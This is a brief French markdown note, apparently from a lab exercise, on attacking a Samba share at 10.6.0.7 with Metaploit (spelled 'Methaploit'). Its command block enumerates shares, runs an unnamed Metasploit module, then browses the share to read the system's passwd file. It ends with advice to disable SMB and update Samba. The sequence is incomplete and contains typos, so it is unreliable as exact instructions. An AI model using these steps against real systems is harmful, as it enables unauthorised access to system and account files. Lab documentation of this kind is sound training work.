

# Exploit SMB avec Methaploit

```bash

smbclient -L //10.6.0.7
msfconsole
set RHOST 10.6.0.7
set SMBSHARE tmp
run
exit

smbclient //10.6.0.7/tmp
cd roottfs
cd etc
more passwd
```


## Recommandation de sécurité
- Désactiver SMB
- Mettre à jour Samba